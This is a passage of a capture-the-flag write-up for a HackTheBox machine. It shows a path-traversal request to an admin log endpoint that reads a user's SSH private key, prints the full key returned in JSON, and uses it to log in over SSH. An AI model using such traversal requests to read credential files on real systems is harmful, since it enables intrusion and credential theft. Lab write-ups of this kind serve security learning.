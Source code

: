 Actually we can read the flag now by sending the request to `/api/v1/admin/read/log?log_file_name=../user.txt`
but we want shell as shirohige, so let's get `.ssh/id_rsa` and the request will be to `/api/v1/admin/read/log?log_file_name=../.ssh/id_rsa` and we got the ssh private key file
```json
{"/home/shirohige/logs/../.ssh/id_rsa":["-----BEGIN OPENSSH PRIVATE KEY-----\n","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\n","-----END OPENSSH PRIVATE KEY-----\n"],"Status":201}
```

We can ask ChatGPT to rearrange the content for the desired format, then create the file and don't forget to `chmod 600 <private_key_file>`
then we can use it for ssh
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/instant]
└─$ chmod 600 pri   
                                                                                                   
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/instant]
└─$ ssh shirohige@instant.htb -i pri

shirohige@instant:~$ ls
logs  projects  user.txt
```

## Shell as root
---
sudo -l didn't work as we don't have the password of the user
